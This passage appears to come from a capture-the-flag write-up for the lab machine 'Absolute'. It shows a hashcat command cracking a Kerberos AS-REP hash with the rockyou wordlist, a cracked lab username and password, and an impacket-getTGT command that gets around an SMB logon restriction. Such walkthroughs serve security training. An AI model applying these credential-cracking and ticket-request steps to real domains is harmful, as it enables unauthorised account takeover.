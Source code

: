 ![image6](../resources/5f2f90e2eb644a2d92ed78549f35baa5.png)

```bash
hashcat -m 18200 --force -a 0 hash.txt /usr/share/wordlists/rockyou.txt

```

![image7](../resources/311d35e26bb140239395629818e511f4.png)

**d.klay : Darkmoonsky248girl**

- Nothing useful can be done with the credentials:

![image8](../resources/ec6d893c9f244af39821f75327cb89d4.png)

SMB does however gives an interesting error:

**STATUS_ACCOUNT_RESTRICTION**

- The account is restricted

![image9](../resources/a2a0aded054c427aa23333ef5df36f78.png)

- It doesn't say LOGON FAILURE but rather, accessing it through this method is restricted
So to bypass the restrictions we can try and authenticate with a valid TGT for the user:

```bash
impacket-getTGT 'absolute.htb/d.klay:Darkmoonsky248girl'

```

![image10](../resources/abbf03e47ad5423aa3b9017b70196d7a.png)
